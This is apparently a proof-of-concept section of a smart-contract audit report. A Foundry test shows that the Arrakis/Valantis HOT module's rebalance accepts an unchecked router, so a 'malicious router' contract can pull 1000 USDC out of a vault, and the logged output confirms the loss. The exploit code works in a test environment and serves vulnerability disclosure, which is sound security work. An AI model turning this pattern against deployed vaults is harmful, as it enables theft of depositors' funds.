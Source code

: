 ```solidity
        bytes memory data = abi.encodeWithSelector(
            IValantisHOTModule.swap.selector,
            zeroForOne,
            expectedMinReturn,
            amountIn,
            router,
            expectedSqrtSpotPriceUpperX96,
            expectedSqrtSpotPriceLowerX96,
            payload
        );

        bytes[] memory datas = new bytes[](1);
        datas[0] = data;

        (uint256 befamount0, uint256 befamount1) =
        IArrakisLPModule(m).totalUnderlying();

        console.log("Before rebalance Token 0 :",befamount0);
        console.log("Before rebalance Token 1 :",befamount1);

        vm.prank(executor);
        IArrakisStandardManager(manager).rebalance(vault, datas);

        // assertions.

        (uint256 aftamount0, uint256 aftamount1) =
            IArrakisLPModule(m).totalUnderlying();

console.log("After rebalance USDC :",aftamount0);
console.log("After rebalance USDC :",aftamount1);
console.log("Balance of USDC in Malicious router contract : ", token0.balanceOf(address(this)));
console.log("Balance of WETH in Malicious router contract : ", token1.balanceOf(address(this)));
       
    }
// end region router not checked
```

&& 

```solidity
    function swap() external {
        ERC20(USDC).transferFrom(msg.sender, address(this), 1000e6);
        deal(WETH, msg.sender, 1.4775 ether);
    }
```

Output of POC :
Use this command "forge test --match-path test/integration/ValantisIntegrationPublic.t.sol --match-test test_routerNotChecked -vv" , and the output will be as follows : 
```solidity
Ran 1 test for test/integration/ValantisIntegrationPublic.t.sol:ValantisIntegrationPublicTest
[PASS] test_routerNotChecked() (gas: 1381080)
Logs:
  Before rebalance Token 0 : 2000000000
  Before rebalance Token 1 : 1000000000000000000
  After rebalance USDC : 1000000000
  After rebalance USDC : 1477500000000000000
  Balance of USDC in Malicious router contract :  1000000000                                // <@audit - here
  Balance of WETH in Malicious router contract :  0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 784.88ms (11.15ms CPU time)
```
